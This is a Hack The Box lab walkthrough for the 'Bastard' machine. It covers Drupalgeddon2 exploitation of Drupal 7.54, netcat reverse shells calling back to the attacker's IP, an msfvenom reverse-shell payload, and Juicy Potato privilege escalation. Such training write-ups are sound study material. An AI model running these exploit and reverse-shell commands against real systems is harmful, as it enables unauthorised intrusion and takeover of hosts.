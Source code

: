# Bastard Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastard 10.10.10.9 -T4``

``80/tcp    open  http    Microsoft IIS httpd 7.5``

``135/tcp   open  msrpc   Microsoft Windows RPC``

``49154/tcp open  msrpc   Microsoft Windows RPC``

# ${{\color{purple}Initial Foothold}}\ $

### I found a drupal installation :

![image](https://user-images.githubusercontent.com/123066149/222651004-4f57a881-a658-42b1-9971-eed3a3e336a9.png)

### And just after I found the version :

![image](https://user-images.githubusercontent.com/123066149/222651316-1a0c5c4c-72df-4617-a4a4-4b99ff7a49d5.png)

### After a little research on my exploit database :

![image](https://user-images.githubusercontent.com/123066149/222651599-021d5a98-9551-49a5-9dda-a5b8e4e49f2f.png)

### I used Drupalgeddon2 for the exploitation part :

https://github.com/dreadlocked/Drupalgeddon2

# ${{\color{purple}Exploitation}}\ $

### I met a problem during the execution it is necessary to install a ruby gem :

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

``ruby drupalgeddon2.rb http://10.10.10.9``

![image](https://user-images.githubusercontent.com/123066149/222652407-c72044a9-a977-4103-80d7-0aa443c1b8d7.png)

![image](https://user-images.githubusercontent.com/123066149/222652670-508a49d3-2911-4db4-ad3b-932e7fc9c50a.png)

``/usr/bin/impacket-smbserver kali .``

``copy \\10.10.16.2\kali\nc.exe``

### Here I use nc to be able to execute commands because with the exploit I am blocked in the root of the web server.
### I tried powershell and cmd and it does not work with powershell.

``nc.exe 10.10.16.2 1234 -e powershell.exe``

``nc.exe 10.10.16.2 1234 -e cmd.exe``

# ${{\color{purple}Privilege Escalation}}\ $

``whoami /priv``

![image](https://user-images.githubusercontent.com/123066149/222653150-d960687b-fcc3-4815-ae6d-8fef5e7d11b8.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

![image](https://user-images.githubusercontent.com/123066149/222653070-65967f13-6367-46e0-9706-88a7f4bc4fc8.png)

``mmsfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653552-a4fc6dcc-3560-4202-a773-942dfcbf8786.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p C:\inetpub\drupal-7.54\exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653326-a6bb088c-8984-4daa-8634-75fd0e114c60.png)

# ${{\color{purple}Points of Improvement}}\ $

* if I have a problem with the execution of an exploit in rubby

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)
